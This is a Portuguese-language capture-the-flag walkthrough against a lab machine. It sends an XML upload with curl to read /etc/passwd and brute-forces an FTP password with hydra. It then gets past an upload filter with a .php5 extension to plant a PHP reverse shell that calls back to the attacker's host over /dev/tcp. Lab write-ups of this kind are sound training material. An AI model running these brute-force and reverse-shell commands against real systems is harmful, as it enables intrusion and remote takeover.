  e usei o curl para fazer o upload do arquivo:
 ```bash
 $ curl -v -d @file.xml http://casino-royale.local/ultra-access-view/main.php
 ```
![/etc/passwd](img/passwd.png)  
Temos o conteúdo do arquivo, /etc/passwd, eu procurei o conteúdo dee outros arquivos, mas não achei nada interessante. Mas no /etc/passwd temos o usuário do ftp, que é ftpUserULTRA, então podemos fazer um bruteforce e encontrar a senha:
```bash
$ hydra -l ftpUserULTRA -P rockyou.txt ftp://192.168.97.128
```
![hydra](img/hydra.png)  
Com o login e a senha podemos acessar os arquivos do ftp e se possível modificar algum deles:
```bash
$ ftp 192.168.97.128
```
![ftp](img/ftp.png)  
Logado como ftpUserULTRA eu listei os arquivos e diretórios e não encontrei nada, então tentei fazer o upload de um arquivo php com uma reverse shell. Quando tentei usando a extensão .php deu errado, então mudei a extensão para .php5 e consegui. Conteúdo do arquivo:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.97.1/1234 0>&1'");
```

Upload via FTP:  
![upload via ftp](img/upftp.png)
